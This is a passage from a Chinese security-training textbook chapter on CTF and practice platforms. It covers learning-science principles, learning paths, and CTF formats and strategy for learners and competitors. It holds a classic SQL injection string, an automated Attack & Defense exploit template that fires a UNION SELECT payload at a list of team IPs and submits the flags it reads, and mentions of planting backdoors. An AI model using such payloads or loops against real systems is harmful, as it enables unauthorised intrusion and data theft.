









# 第29章 实战平台总汇 - 深度拓展

本章是实战平台总汇的深度拓展部分。前面的章节介绍了各类平台的基本使用方法和操作流程，本章将从学习科学的理论高度重新审视实战平台的价值，深度解析CTF比赛的策略体系，对全球主流平台进行横向对比评测，并展望云安全、AI安全、IoT安全等前沿领域的实战平台生态。无论你是刚入门的安全爱好者还是有经验的从业者，本章的内容都将帮助你构建系统化的实战能力提升框架。



## 一、实战学习的理论基础与学习科学

很多人把实战平台当作"刷题工具"，这种认知大大低估了它的价值。要真正发挥实战平台的潜力，需要理解其背后的学习科学原理。

### 1.1 建构主义学习理论在安全学习中的应用

建构主义（Constructivism）由认知心理学家皮亚杰（Jean Piaget）提出，核心观点是：**知识不是被动接收的，而是学习者通过与环境的互动主动构建的**。这一理论对网络安全学习有极强的指导意义。

在传统的安全培训中，学员通过听课或阅读资料来学习漏洞原理，这种被动学习方式的理解深度有限。实战平台则提供了建构主义的理想学习环境：

**主动探索而非被动接受。** 当你在HackTheBox上面对一台目标机器时，没有人告诉你这台机器有什么漏洞。你必须通过端口扫描、服务枚举、代码分析来主动发现攻击面。这个探索过程本身就是在构建你对攻击链的理解——每一步发现都会修正你头脑中的心理模型。

**情境化学习。** 真实的安全问题从来不以"请利用SQL注入攻击这个系统"的方式出现。实战平台提供的虚拟环境模拟了真实网络拓扑：有多个服务在运行，有防火墙规则限制流量，有多个可能的攻击入口。你需要在真实的情境中判断哪些发现是高价值的，哪些是噪音。

**协作建构。** CTF比赛的团队协作本身就是建构主义的经典实践。当Web方向的队员发现一个SSRF漏洞，二进制方向的队员意识到这个SSRF可以用来访问内网的调试端口——这种跨方向的协作往往能产生单人无法达到的洞察。

**一个具体的例子说明建构主义的威力：**

假设一个初学者学习SQL注入，如果只是读教材，他会记住`' OR 1=1 --`这种经典的注入语句。但在DVWA的High级别练习中，他需要面对：时间盲注（无回显）、WAF过滤（关键词被拦截）、二次注入（存储后触发）。每一种变体都迫使他在原有知识的基础上构建新的理解层。到了HackTheBox实战中，他可能还需要结合信息收集（从报错信息推断数据库类型）、权限利用（数据库写文件getshell）、横向渗透（从数据库中获取其他用户密码），这才是SQL注入在真实环境中的完整图景。

> **维果茨基的最近发展区理论补充：** 建构主义的一个重要分支——维果茨基（Vygotsky）的"最近发展区"（Zone of Proximal Development）理论指出，学习者在他人指导下能达到的水平，比独立能达到的水平更高。这解释了为什么TryHackMe的引导式教学对初学者如此有效：它恰好在你的"最近发展区"内提供脚手架（scaffolding），帮助你完成独立无法完成的任务。随着能力增长，脚手架逐步撤除——这正是从TryHackMe过渡到HackTheBox的认知科学依据。

### 1.2 刻意练习理论的具体实践方法

安德斯·埃里克森（Anders Ericsson）提出的刻意练习（Deliberate Practice）理论强调：**单纯重复不会带来进步，只有结构化的、有针对性的练习才能提升能力**。刻意练习的四个要素及其在安全学习中的具体应用：

**要素一：明确的、有挑战性的目标。** 不要说"今天学Web安全"，而要说"今天掌握JWT（JSON Web Token）的算法混淆攻击，完成PortSwigger Academy的JWT实验"。目标越具体，练习越有效。建议使用SMART原则制定每周学习目标：

```text
示例周目标（中级学员）：
- Specific（具体）：掌握JWT的三种算法混淆攻击方式
- Measurable（可衡量）：完成PortSwigger Academy全部JWT实验
- Achievable（可达成）：已掌握HTTP基础和JSON格式
- Relevant（相关）：目标岗位要求Web API安全测试能力
- Time-bound（限时）：本周六前完成，每天投入2小时
```

**要素二：即时、具体的反馈。** 实战平台的核心价值之一是即时反馈——提交flag立即知道对错。但仅靠flag结果还不够，你需要更精细的自我反馈机制：

| 反馈层级 | 来源 | 频率 | 示例 |
|---------|------|------|------|
| 即时反馈 | 平台自动判定 | 每次尝试 | flag提交成功/失败 |
| 技术反馈 | 解题报告对比 | 每题完成 | "我的方法是暴力枚举，官方解法用的是数学推导" |
| 模式反馈 | 周期复盘 | 每周 | "我在XSS绕过类题目上失败率最高" |
| 战略反馈 | 队友/导师点评 | 每月 | "你的信息收集不够系统，总是遗漏内网段" |
| 元认知反馈 | 自我反思 | 每月 | "我是否在用正确的策略分配时间？是否过度依赖工具？" |

**要素三：专注于弱点区域。** 人类的本能是重复自己擅长的事情（因为有成就感），但刻意练习要求你直面弱点。具体做法：

1. 记录每道题的解题过程和耗时
2. 按题型分类统计成功率和平均耗时
3. 识别成功率最低或耗时最长的题型
4. 针对该题型制定专项练习计划

```python
# 简单的技能追踪脚本示例
import json
from collections import defaultdict

class SkillTracker:
    def __init__(self, data_file="ctf_progress.json"):
        self.data_file = data_file
        try:
            with open(data_file, 'r') as f:
                self.records = json.load(f)
        except FileNotFoundError:
            self.records = []

    def record(self, challenge_type, challenge_name, solved, time_minutes):
        """记录每次练习"""
        self.records.append({
            "type": challenge_type,
            "name": challenge_name,
            "solved": solved,
            "time_min": time_minutes
        })
        with open(self.data_file, 'w') as f:
            json.dump(self.records, f, indent=2)

    def weakness_report(self):
        """生成弱点分析报告"""
        stats = defaultdict(lambda: {"attempted": 0, "solved": 0, "total_time": 0})
        for r in self.records:
            stats[r["type"]]["attempted"] += 1
            if r["solved"]:
                stats[r["type"]]["solved"] += 1
            stats[r["type"]]["total_time"] += r["time_min"]

        print(f"{'题型':<15} {'尝试':>6} {'成功':>6} {'成功率':>8} {'平均耗时':>10}")
        print("-" * 50)
        for t, s in sorted(stats.items(), key=lambda x: x[1]["solved"]/max(x[1]["attempted"],1)):
            rate = s["solved"] / s["attempted"] * 100 if s["attempted"] > 0 else 0
            avg_time = s["total_time"] / s["attempted"] if s["attempted"] > 0 else 0
            print(f"{t:<15} {s['attempted']:>6} {s['solved']:>6} {rate:>7.1f}% {avg_time:>8.1f}min")
        
        # 识别弱点并给出建议
        print("\n=== 弱点分析 ===")
        for t, s in stats.items():
            rate = s["solved"] / s["attempted"] * 100 if s["attempted"] > 0 else 0
            if rate < 50:
                print(f"⚠️  {t}: 成功率仅{rate:.1f}%，建议集中突破")
            elif rate < 70:
                print(f"📌 {t}: 成功率{rate:.1f}%，需要持续巩固")

# 使用示例
tracker = SkillTracker()
tracker.record("web_sqli", "SQLi-01", True, 25)
tracker.record("web_sqli", "SQLi-02", False, 60)
tracker.record("web_xss", "XSS-01", True, 15)
tracker.record("crypto", "RSA-01", False, 120)
tracker.weakness_report()
```

**要素四：逐渐提升的难度。** 线性重复（一直做同难度的题）不会带来成长。有效的难度递增策略是"80/20法则"——80%的练习在当前能力水平附近，20%的练习略高于当前水平。



**"心流"状态与难度匹配：** 心理学家米哈里·契克森米哈赖（Mihaly Csikszentmihalyi）提出的心流（Flow）理论描述了一种完全沉浸的最佳体验状态。在安全学习中，当挑战难度与你的技能水平恰好匹配时，你会进入心流状态——时间飞逝，注意力高度集中。难度太低你会无聊，难度太高你会焦虑。找到这个甜蜜点是高效学习的关键。

### 1.3 学习科学：间隔重复、检索练习与交错练习

认知科学的研究为实战平台的学习方法提供了三个关键原则：

**间隔重复（Spaced Repetition）。** 遗忘曲线告诉我们，学习后如果不复习，知识会快速衰减。但"间隔重复"并不意味着简单地重复做同一种题——它意味着在不同场景下反复使用同一种技能。例如，你学会了SSRF（服务端请求伪造）漏洞，在第一次练习后的一周内，应该：

- 第1天：在PortSwigger Academy完成SSRF基础实验
- 第3天：在TryHackMe上找一台涉及SSRF的靶机
- 第7天：在HackTheBox上挑战一台有SSRF但需要组合利用的机器
- 第14天：在一个CTF比赛中寻找SSRF相关题目

每一次复习都在不同的情境下使用同一技能，这种"变化的情境"比"相同的情境"更能形成长期记忆。

**检索练习（Retrieval Practice）。** 比起反复阅读解题报告，闭卷尝试解题（即使失败）对记忆的巩固效果更好。具体做法：

1. **首次练习**：不看任何提示，独立解题，记录所有尝试过的步骤
2. **复盘对比**：解题成功后，对比自己的方法和官方解法
3. **主动回忆**：一周后不看任何资料，在纸上写出该题型的解题思路
4. **查漏补缺**：对照之前记录，找出遗忘的知识点

**交错练习（Interleaving）。** 不要在一周内只做SQL注入题、下一周只做XSS题。研究表明，交错不同类型的练习虽然感觉更困难（"感觉学习效果更差"），但长期记忆和迁移能力反而更强。原因是交错练习迫使大脑不断切换策略，训练了"识别问题类型并选择正确策略"的能力——这正是真实渗透测试中最需要的技能。

> **交错练习的反直觉效应：** 心理学研究（Rohrer & Taylor, 2007）发现，交错练习的学习者在延迟测试中的表现比集中练习者高出43%。关键原因是交错练习迫使大脑进行"辨别"——你不仅要解决问题，还要判断"这是什么类型的问题"。在真实渗透测试中，你面对的正是这种"未知类型"的判断。

建议的学习日程安排：

```text
周一：Web安全（上午SQL注入练习，下午XSS练习）
周二：二进制安全（上午栈溢出，下午堆利用）
周三：密码学（上午古典密码，下午RSA攻击）
周四：综合实战（TryHackMe综合靶机，涉及多种技能）
周五：CTF真题练习（混合题型）
周六：复盘与笔记整理，补充薄弱环节
周日：休息或轻松的阅读（安全博客、漏洞公告）
```

**费曼学习法的应用：** 物理学家理查德·费曼提出的学习方法——"如果你不能用简单的语言解释一个概念，你就没有真正理解它"。在安全学习中，尝试向非技术人员解释一个漏洞（比如SQL注入）的工作原理。如果你需要用大量专业术语才能说清楚，说明你对这个漏洞的理解还不够深入。真正的掌握是能用日常语言打比方：比如"SQL注入就像在填表格时，在名字栏里多写了一句话，让办事员帮你多做了一件事"。

### 1.4 技能评估与能力图谱

知道"自己在哪里"和"要去哪里"同样重要。以下提供一个系统的技能评估框架：

**NIST NICE框架的简化版本：**

美国国家标准与技术研究院（NIST）发布的NICE网络安全人才框架将安全能力分为七个大类。我们将其简化为与实战平台学习最相关的五个能力维度：

| 维度 | 初级指标 | 中级指标 | 高级指标 |
|------|---------|---------|---------|
| **安全评估** | 能使用自动化扫描工具 | 能手动发现并利用常见漏洞 | 能发现逻辑漏洞和零日漏洞 |
| **渗透测试** | 能完成引导式渗透测试 | 能独立完成全链路渗透测试 | 能制定测试策略、编写定制化exploit |
| **事件响应** | 能识别安全事件类型 | 能进行事件溯源和取证分析 | 能制定应急响应计划、进行威胁狩猎 |
| **安全运营** | 能配置基础安全策略 | 能进行日志分析和告警研判 | 能构建安全监控体系和自动化响应 |
| **安全开发** | 能编写安全的代码 | 能进行代码审计和安全设计 | 能开发安全工具和防护系统 |

**自评方法：**

1. 在HackTheBox或TryHackMe上选择不同难度的机器，记录各难度级别的成功率
2. 参加一次CTF比赛（如CTFtime上的比赛），按题型统计得分
3. 使用PortSwigger Academy的技能评估，了解Web安全各领域的掌握程度
4. 将结果填入上表，找出能力短板

**能力雷达图模板：** 建议使用雷达图（Spider Chart）可视化自己的能力分布，定期（每季度）更新一次。在GitHub上维护一个`skill-radar.md`文件，记录各维度的自评分（1-5分），追踪长期成长轨迹。

### 1.5 个性化学习路径设计

不同背景的学习者需要不同的路径。以下是针对三种典型画像的详细路径设计：

**画像一：计算机专业在校学生（零安全基础）**



**画像二：运维/开发工程师（有技术基础）**

已有的网络知识和编程能力是巨大优势，可以直接跳过基础阶段，重点放在安全思维的培养上：

- 第1月：速通DVWA和PortSwigger Academy基础实验，建立安全视角
- 第2-3月：TryHackMe综合路径 + HackTheBox入门机器（每周2-3台）
- 第4-5月：结合本职工作方向深入（开发选Web安全，运维选内网渗透）
- 第6月+：参加CTF比赛、学习漏洞挖掘、准备OSCP认证

**画像三：纯零基础转行者（非技术背景）**

这条路走得通但需要更多时间，关键是要建立坚实的技术基础：

- 第1-3月：Linux基本操作（OverTheWire Bandit）、网络基础（TCP/IP四层模型）、Python编程
- 第4-6月：TryHackMe入门路径、DVWA基础难度
- 第7-9月：选择方向并深入，每周完成1台Easy级别靶机
- 第10-12月：尝试CTF比赛、开始撰写技术博客

> **关键提醒：** 不要急于求成。我见过太多初学者直接上手HackTheBox Insane难度的机器，花了三天毫无进展，最终放弃。按照自己的节奏来，完成10台Easy比卡在1台Insane上更有价值。

## 二、CTF比赛深度解析——从新手到战队核心

CTF（Capture The Flag）是网络安全领域最主流的竞技形式，也是实战平台生态的核心驱动力。本节将深入解析CTF的比赛模式、题型体系、策略方法及其与真实安全工作的关系。

### 2.1 CTF比赛的四大模式

#### Jeopardy（解题）模式

Jeopardy是最常见的CTF形式，全球约70%的CTF比赛采用此模式。比赛界面通常是一个题板，按类别（Web、Pwn、Reverse、Crypto、Misc）和难度分区，每道题有一个分值和描述。

**计分规则有两种主流方案：**

- **静态计分**：每道题固定分值（如Easy 100分、Medium 200分、Hard 300分），先解出的人没有额外奖励。优点是简单公平，缺点是容易被"秒杀"——顶级战队可以在几分钟内完成简单题。
- **动态计分**：分值随解题人数动态调整。解题人越多，分值越低。一场比赛开始时某道Web题可能值500分，但如果50支队伍都解出来了，分值可能降到150分。这种机制鼓励参赛队伍挑战冷门题目，而不是只盯着热门方向。
- **阶梯计分**：解题人数每达到一个阈值，分数下降一级。这是静态和动态计分的折中方案，常见于国内CTF比赛。

**Jeopardy模式的典型比赛流程：**



#### Attack & Defense（攻防）模式

A&D模式是最接近真实攻防的CTF形式，也是观赏性最强的模式。每支队伍拥有相同的服务器环境（通常是一个包含若干漏洞服务的虚拟网络），需要同时做两件事：**攻击对手获取flag** 和 **修补自己的漏洞保护flag**。

**A&D的完整回合制流程：**

1. **准备阶段**（通常30-60分钟）：队伍接收服务器环境，开始分析服务代码、寻找漏洞。这个阶段不能攻击别人，只能做准备。
2. **攻击阶段**（正式比赛，通常持续8-24小时）：
   - 每个回合（tick）通常为1-5分钟
   - 每个回合开始时，每个服务会生成新的flag并存入数据库
   - 攻击方利用漏洞读取对手的flag并提交
   - 防守方修补漏洞、恢复被破坏的服务
   - 每个回合结束后结算分数

**A&D模式的攻防计分：**

```text
进攻得分：每成功获取一个对手的flag得 X 分
防守扣分：每被对手获取一个自己的flag扣 Y 分
可用性：服务不可用会被额外扣分（防止"全关服务保flag"策略）
补丁奖励：修补漏洞后获得少量加分

典型分值设置：X=50分，Y=30分
这意味着进攻比防守更"值钱"，鼓励积极进攻而非保守防御。
```

**A&D比赛的关键策略：**

- **漏洞优先级排序**：发现多个漏洞时，优先利用能直接读取flag的漏洞（如数据库注入），而非需要提权的漏洞
- **补丁时机**：不要急于修补漏洞——先写好攻击脚本确认能打，再补丁。过早补丁可能暴露漏洞信息给对手
- **自动化攻击**：手工攻击在A&D中不可持续，必须编写自动化exploit脚本。Python + pwntools是标准配置
- **服务监控**：部署自己的监控脚本，实时检测其他队伍的攻击行为，发现异常及时修补

```python
# A&D模式自动化exploit模板
from pwn import *
import requests
import time
import re

TEAMS = [f"10.60.{i}.1" for i in range(1, 30)]  # 假设30支队伍
SERVICE_PORT = 8080
FLAG_PATTERN = r"flag\{[a-zA-Z0-9_!@#$%^&*]+\}"

def extract_flag(text):
    """从响应中提取flag"""
    match = re.search(FLAG_PATTERN, text)
    return match.group(0) if match else None

def exploit(target_ip):
    """针对单个目标的利用函数"""
    try:
        # 1. 触发漏洞（以SQL注入为例）
        url = f"http://{target_ip}:{SERVICE_PORT}/api/userinfo"
        payload = {"id": "1 UNION SELECT flag FROM flags--"}
        r = requests.post(url, json=payload, timeout=3)
        
        # 2. 提取flag
        flag = extract_flag(r.text)
        if flag:
            return flag
    except Exception as e:
        log.warning(f"Failed to exploit {target_ip}: {e}")
    return None

def submit_flag(flag, server_url="http://10.10.10.1:8000"):
    """提交flag到记分板"""
    try:
        r = requests.post(f"{server_url}/flags", json={"flag": flag}, timeout=3)
        return r.status_code == 200
    except:
        return False

# 主循环：每tick执行一次
while True:
    for team_ip in TEAMS:
        flag = exploit(team_ip)
        if flag:
            log.success(f"Got flag from {team_ip}: {flag}")
            submit_flag(flag)
    time.sleep(60)  # 每分钟执行一轮
```

#### King of the Hill（占山）模式

KotH模式中，所有参赛队伍共享同一台或一组服务器，目标是获取并保持root/admin权限。服务器上有一个特殊的"king"文件或进程，控制它的队伍获得持续积分。

**KotH的独特挑战：**
- 需要加固系统（改密码、关不需要的服务、部署后门）
- 需要监控其他队伍的入侵行为
- 后门植入与清理的博弈
- 时间管理——是花时间加固还是去抢别人的机器

**KotH的典型战术：**
1. **闪电战**：比赛开始后立即利用已知漏洞获取root，部署持久化后门
2. **龟缩防御**：加固所有服务，关闭不必要的端口，部署蜜罐检测入侵
3. **情报战**：监控网络流量，分析其他队伍的攻击手法，针对性防御
4. **蝴蝶战术**：不追求长期占山，而是频繁切换目标，在多个服务上短暂获取flag

#### Real World（实战模拟）模式

部分高端CTF（如Google CTF、DEF CON CTF）会引入更贴近真实的场景：内网渗透、钓鱼攻击、供应链投毒等。这类比赛通常作为邀请赛存在，难度极高。

**Real World CTF的典型场景：**
- 模拟企业网络拓扑，包含Active Directory域环境
- 需要通过钓鱼邮件获取初始访问
- 多层网络隔离，需要跳板机和隧道技术
- 包含蜜罐和诱饵，需要区分真实目标和陷阱

### 2.2 五大题型深度剖析

#### Web安全

Web安全是CTF中题目数量最多的方向，也是初学者最容易入门的方向。题目通常模拟一个真实的Web应用，要求参赛者发现并利用其中的安全漏洞。

**Web安全CTF的技术栈和对应考点：**

| 技术层 | 典型漏洞 | 难度 | CTF常见出题方式 |
|-------|---------|------|---------------|
| **前端** | XSS、CORS配置错误、原型链污染 | ★★☆ | 反射型XSS绕过、DOM Clobbering |
| **后端框架** | SSTI（模板注入）、反序列化、路由绕过 | ★★★ | Jinja2/SSTI沙箱逃逸、Java反序列化链 |
| **数据库** | SQL注入（布尔/时间/堆叠）、NoSQL注入 | ★★☆ | WAF绕过、ORM注入、二次注入 |
